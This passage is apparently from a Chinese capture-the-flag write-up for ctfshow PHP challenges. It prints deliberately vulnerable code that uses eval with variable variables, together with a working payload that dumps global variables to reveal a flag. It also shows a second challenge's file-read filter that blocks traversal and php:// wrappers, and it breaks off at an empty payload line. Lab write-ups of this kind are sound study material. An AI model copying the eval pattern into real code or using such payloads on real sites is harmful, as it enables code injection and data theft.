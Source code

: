```php
function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}


if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v2)){
            die("error v2");
    }
    
    if(preg_match('/ctfshow/', $v1)){
            getFlag($v1,$v2);
    }
}
?>
```
第24行要求v1包含ctfshow，那么就GET一个ctfshow给v1，然后要想办法利用第9行将flag.php中的flag打印出来，考察点在于全局变量，即v2=GLOBALS，就能打印出flag.php中的变量值。
payload：/?v1=ctfshow&v2=GLOBALS
## web112（php://filter以及死亡绕过）
```php
<?php

highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```
payload：
